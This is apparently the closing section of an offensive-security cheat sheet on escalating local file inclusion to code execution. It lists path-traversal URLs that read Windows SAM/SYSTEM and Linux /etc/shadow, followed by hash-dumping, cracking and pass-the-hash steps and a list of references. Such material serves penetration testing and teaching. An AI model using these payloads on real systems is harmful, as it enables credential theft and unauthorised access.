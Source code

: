 ## LFI to RCE via credentials files

This method require high privileges inside the application in order to read the sensitive files.

### Windows version

First extract `sam` and `system` files.

```powershell
http://example.com/index.php?page=../../../../../../WINDOWS/repair/sam
http://example.com/index.php?page=../../../../../../WINDOWS/repair/system
```

Then extract hashes from these files `samdump2 SYSTEM SAM > hashes.txt`, and crack them with `hashcat/john` or replay them using the Pass The Hash technique.

### Linux version

First extract `/etc/shadow` files.

```powershell
http://example.com/index.php?page=../../../../../../etc/shadow
```

Then crack the hashes inside in order to login via SSH on the machine.

## References

* [OWASP LFI](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion)
* [HighOn.coffee LFI Cheat](https://highon.coffee/blog/lfi-cheat-sheet/)
* [Turning LFI to RFI](https://l.avala.mp/?p=241)
* [Is PHP vulnerable and under what conditions?](http://0x191unauthorized.blogspot.fr/2015/04/is-php-vulnerable-and-under-what.html)
* [Upgrade from LFI to RCE via PHP Sessions](https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/)
* [Local file inclusion tricks](http://devels-playground.blogspot.fr/2007/08/local-file-inclusion-tricks.html)
* [CVV #1: Local File Inclusion - SI9INT](https://medium.com/bugbountywriteup/cvv-1-local-file-inclusion-ebc48e0e479a)
* [Exploiting Blind File Reads / Path Traversal Vulnerabilities on Microsoft Windows Operating Systems - @evisneffos](http://www.soffensive.com/2018/06/exploiting-blind-file-reads-path.html)
* [Baby^H Master PHP 2017 by @orangetw](https://github.com/orangetw/My-CTF-Web-Challenges#babyh-master-php-2017)
* [Чтение файлов => unserialize !](https://rdot.org/forum/showthread.php?t=4379)
* [New PHP Exploitation Technique - 14 Aug 2018 by Dr. Johannes Dahse](https://blog.ripstech.com/2018/new-php-exploitation-technique/)
* [It's-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It, Sam Thomas](https://github.com/s-n-t/presentations/blob/master/us-18-Thomas-It's-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It.pdf)
* [CVV #1: Local File Inclusion - @SI9INT - Jun 20, 2018](https://medium.com/bugbountywriteup/cvv-1-local-file-inclusion-ebc48e0e479a)
* [Exploiting Remote File Inclusion (RFI) in PHP application and bypassing remote URL inclusion restriction](http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html?m=1)
